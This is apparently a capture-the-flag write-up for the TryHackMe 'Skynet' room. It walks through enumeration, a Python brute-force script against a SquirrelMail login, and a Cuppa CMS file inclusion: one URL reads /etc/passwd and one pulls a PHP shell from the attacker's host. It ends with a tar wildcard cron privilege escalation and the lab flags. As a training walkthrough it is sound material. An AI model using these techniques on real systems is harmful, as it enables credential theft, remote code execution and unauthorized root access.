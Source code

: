 # Skynet (THM)

- https://tryhackme.com/room/skynet
- March 3, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
3. 110/pop3d
   - pop3-capabilities: TOP PIPELINING AUTH-RESP-CODE UIDL RESP-CODES SASL CAPA
4. 139/samba smbd 3.X - 4.X
5. 143/imap Dovecot imapd
   - imap-capabilities: ENABLE LOGIN-REFERRALS Pre-login listed more IMAP4rev1 OK have LOGINDISABLEDA0001 ID IDLE post-login capabilities SASL-IR LITERAL+
6. 445/tcp open netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

### Samba

- samba enumeration with enum4linux

```
users - milesdyson
shares - print$, anonymous, milesdyson, IPC$
anonymous - ok
```

- login as anonymous

```sh
$ smbclient //$IP/anonymous
# get files
```

- log1.txt -> may be passwords of something
- attention.txt -> 

```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

### HTTP

- http directory enumeration

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c
admin         [Status: 301, Size: 312, Words: 20, Lines: 10]
config        [Status: 301, Size: 313, Words: 20, Lines: 10]
css           [Status: 301, Size: 310, Words: 20, Lines: 10]
index.html    [Status: 200, Size: 523, Words: 26, Lines: 19]
js            [Status: 301, Size: 309, Words: 20, Lines: 10]
server-status [Status: 403, Size: 277, Words: 20, Lines: 10]
squirrelmail  [Status: 301, Size: 319, Words: 20, Lines: 10]
```

- SquirrelMail -> 1.4.23 (SVN)

![](images/2023-03-03-19-56-23.png)

- admin -> no permission

- at this point, we get `username - Miles Dyson` and list of may be passwords from smb
- we know squirrel mail login page and try to brute force with Miles Dyson and passwords
- create possible usernames
- write as `mail_burte_force.py`

```python
import requests 

with open('./from_ftp/log1.txt') as f:
    pwds = f.readlines()

usernames = ["Miles Dyson", "milesdyson", "m.dyson", "dysonmiles", "m-dyson"]
s = requests.Session()

for username in usernames:
    for pwd in pwds:
        pwd = pwd.strip()
        data = {
            "login_username": username,
            "secretkey": pwd,
            "js_autodetect_results": "1",
            "just_logged_in": "1"
        }
        r = s.post('http://10.10.14.212/squirrelmail/src/redirect.php',
                   data=data)
        print(f"{username}:{pwd} -> {r.status_code}, {len(r.text)}")
```

`milesdyson:cyborg007haloterminator`

![](images/2023-03-03-20-43-20.png)

![](images/2023-03-03-20-44-04.png)

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B
```

- other mails

![](images/2023-03-03-20-45-08.png)

![](images/2023-03-03-20-45-31.png)

- enter smb with above password

```sh
smbclient //$IP/milesdyson -U milesdyson
```

![](images/2023-03-03-20-48-54.png)

- there are many files inside notes folder
- get important.txt

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

- it may be secret directory in http

![](images/2023-03-03-20-55-16.png)

- nothing special found and brute force the directory

```sh
$ ffuf -u http://10.10.14.212/45kra24zxs28v3yd/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

- administrator found
  `http://10.10.14.212/45kra24zxs28v3yd/administrator/` - it is a login page.

![](images/2023-03-03-21-05-49.png)

- try to login with previous name and password
- not success
- find cuppa exploit and found '/alertConfigField.php' Local/Remote File Inclusion
- https://www.exploit-db.com/exploits/25971

- check local file inclusion 
- http://10.10.14.212/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd


## User Access

- it is said it also works for remote file inclusion
- in local machine, create server with python and create shell.php file
- listen with nc in local machine
- curl request to

```
http://10.10.14.212/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.8.57:9999/php_shell.php
```

![](images/2023-03-03-21-13-04.png)

```sh
$ cat /home/milesdyson/user.txt
7ce5c2109a40f958099283600a9ae807
```

- check cronjobs

```sh
$ cat /etc/crontab
...

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

$ cat backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

- backup.sh is run by root user as cron job
- backup.sh run tar with \* from /var/www/html directory which has `www-data` full permission
- here is an exploit to get root shell

## Root Access

```sh
$ cd /var/www/html
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
# this will be run by root and will get SUID for bash
$ chmod +x runme.sh
$ touch "/var/www/html/--checkpoint=1"
$ touch "/var/www/html/--checkpoint-action=exec=sh runme.sh"
# wait for 1 minute to run by root, then
$ ls -la /tmp # if bash is found
$ /tmp/bash -p
$ whoami
root
$ cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

---
